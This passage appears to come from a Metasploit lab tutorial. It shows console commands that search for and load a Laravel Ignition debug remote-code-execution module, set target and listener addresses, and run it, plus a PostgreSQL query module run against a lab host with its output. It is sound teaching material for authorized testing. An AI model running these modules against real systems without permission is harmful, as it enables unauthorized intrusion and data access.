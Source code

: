 After msfconsole is opened, there are multiple commands available:

Metasploit Console Commands

```shell-session
# To search for a module, use the ‘search’ command:
msf6 > search laravel

# Load a module with the ‘use’ command
msf6 > use multi/php/ignition_laravel_debug_rce

# view the information about the module, including the module options, description, CVE details, etc
msf6 exploit(multi/php/ignition_laravel_debug_rce) > info
```

After using a Metasploit module, you can view the options, set options, and run the module:

Metasploit Console Commands

```shell-session
# View the available options to set
show options

# Set the target host and logging
set rhost MACHINE_IP
set verbose true

# Set the payload listening address; this is the IP address of the host running Metasploit
set lhost LISTEN_IP

# show options again
show options

# Run or check the module
check
run
```

You can also directly set options from the `run` command:

Metasploit Console Commands

```shell-session
msf6 > use admin/postgres/postgres_sql
msf6 auxiliary(admin/postgres/postgres_sql) > run postgres://user:password@MACHINE_IP/database_name sql='select version()'
[*] Running module against 172.28.101.51

Query Text: 'select version()'
==============================

    version
    -------
    PostgreSQL 10.5 on x86_64-pc-linux-musl, compiled by gcc (Alpine 6.4.0) 6.4.0, 64-bit

[*] Auxiliary module execution completed
```
